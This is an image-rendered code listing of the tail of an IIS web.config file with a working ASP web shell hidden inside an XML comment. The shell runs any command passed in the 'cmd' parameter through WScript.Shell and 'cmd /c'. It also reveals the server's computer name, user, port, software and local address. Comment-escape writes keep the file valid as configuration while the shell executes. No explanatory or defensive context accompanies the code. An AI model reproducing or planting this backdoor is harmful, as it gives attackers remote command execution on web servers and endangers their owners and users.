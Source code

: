 ```xml
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<!--
<% Response.write("-"&"->")%>
<%
Set oScript = Server.CreateObject("WSCRIPT.SHELL")
Set oScriptNet = Server.CreateObject("WSCRIPT.NETWORK")
Set oFileSys = Server.CreateObject("Scripting.FileSystemObject")

Function getCommandOutput(theCommand)
    Dim objShell, objCmdExec
    Set objShell = CreateObject("WScript.Shell")
    Set objCmdExec = objshell.exec(thecommand)

    getCommandOutput = objCmdExec.StdOut.ReadAll
end Function
%>

<BODY>
<FORM action="" method="GET">
<input type="text" name="cmd" size=45 value="<%= szCMD %>">
<input type="submit" value="Run">
</FORM>

<PRE>
<%= "\\" & oScriptNet.ComputerName & "\" & oScriptNet.UserName %>
<%Response.Write(Request.ServerVariables("server_name"))%>
<p>
<b>The server's port:</b>
<%Response.Write(Request.ServerVariables("server_port"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("server_software"))%>
</p>
<p>
<b>The server's software:</b>
<%Response.Write(Request.ServerVariables("LOCAL_ADDR"))%>
<% szCMD = request("cmd")
thisDir = getCommandOutput("cmd /c" & szCMD)
Response.Write(thisDir)%>
</p>
<br>
</BODY>

<%Response.write("<!-"&"-") %>
-->
```